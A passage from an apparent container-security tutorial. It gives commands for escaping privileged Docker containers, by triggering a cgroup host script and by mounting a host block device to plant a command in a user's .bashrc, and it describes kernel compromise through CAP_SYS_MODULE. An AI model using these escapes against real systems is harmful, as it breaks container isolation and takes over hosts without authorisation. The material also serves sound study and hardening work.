 ```bash
# By creating a /bin/sh process and writing its PID to the cgroup.procs file in "x" child cgroup directory
# The script on the host will execute after /bin/sh exits 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
# Reads the output
cat /output
```

## Abusing exposed host directories

Assusme, the `/home` directory is exposed by `/dev/sdb1` within a privileged container. In such case, you can generate a device node for that block device, mount it into the container, and gain access to host's `/home` directory.

```bash
$ docker run --privileged -it --rm alpine:latest
/ $ apk update && apk add util-linux
# ...
/ $ lsblk
NAME      MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda         8:0    0   45G  0 disk
├─sda1      8:1    0 40.9G  0 part /etc/hosts
├─sda2      8:2    0   16M  0 part
├─sda3      8:3    0    2G  0 part
│ └─vroot 253:0    0  1.2G  1 dm
├─sda4      8:4    0   16M  0 part
├─sda5      8:5    0    2G  0 part
├─sda6      8:6    0  512B  0 part
├─sda7      8:7    0  512B  0 part
├─sda8      8:8    0   16M  0 part
├─sda9      8:9    0  512B  0 part
├─sda10     8:10   0  512B  0 part
├─sda11     8:11   0    8M  0 part
└─sda12     8:12   0   32M  0 part
sdb         8:16   0    5G  0 disk
└─sdb1      8:17   0    5G  0 part
zram0     252:0    0  768M  0 disk [SWAP]
/ $ mknod /dev/sdb1 block 8 17
/ $ mkdir /mnt/host_home
/ $ mount /dev/sdb1 /mnt/host_home
/ $ echo 'echo "Hello from container land!" 2>&1' >> /mnt/host_home/eric_chiang_m/.bashrc
```

References:
- [Writeup: Privileged Containers Aren't Containers](https://ericchiang.github.io/post/privileged-containers/)

# CAP_SYS_MODULE

[CAP_SYS_MODULE](https://man7.org/linux/man-pages/man7/capabilities.7.html) allows the process to load and unload arbitrary kernel modules (`init_module(2)`, `finit_module(2)` and `delete_module(2)` system calls). This could lead to trivial privilege escalation and ring-0 compromise. The kernel can be modified at will, subverting all system security, Linux Security Modules, and container systems.
